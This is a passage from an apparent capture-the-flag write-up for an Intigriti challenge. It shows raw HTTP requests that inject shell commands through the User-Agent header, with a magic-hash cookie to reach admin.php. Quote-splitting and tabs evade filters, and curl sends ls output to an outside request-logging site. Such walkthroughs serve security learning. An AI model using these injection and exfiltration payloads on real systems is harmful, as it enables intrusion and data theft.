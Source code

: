 <br>

We are going to utilize a beautiful site named [https://requestinspector.com/] to make this last part here.<br>
Fire up request inspector and click "generate" to get your own unique url.<br>
`https://requestinspector.com/inspect/[Your Unique Id]`<br>
<br>

![RCE OOB exfiltration](RceGivesBackAdmin.php.png)<br>
<br>
```
GET /e7f717ed-d429-4d00-861d-4137d1ef29az/9709e993-be43-4157-879b-78b647f15ff7/admin.php HTTP/2
Host: challenge-0423.intigriti.io
Cookie: username=strange; account_type=QNKCDZO
Sec-Ch-Ua: "Chromium";v="112", "Google Chrome";v="112", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: $(cur'l'	https://requestinspector.com/inspect/[Your Unique Id]/$(l's')): 
...
```

*Please be aware the tab betweet cur'l' and the start of the adress*<br>
Unfortunatly we cannot decide for example "print second line of ls output".<br>
`-I` to the rescue!
-I is ignore for ls so we are going to ignore `admin.php`

```
GET /e7f717ed-d429-4d00-861d-4137d1ef29az/9709e993-be43-4157-879b-78b647f15ff7/admin.php HTTP/2
Host: challenge-0423.intigriti.io
Cookie: username=strange; account_type=QNKCDZO
Sec-Ch-Ua: "Chromium";v="112", "Google Chrome";v="112", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: $(cur'l'	https://requestinspector.com/inspect/01gz7cwd68v20wryaya0kjcnth/$(l's'	-I	admin.php)): 
...
```
<br>
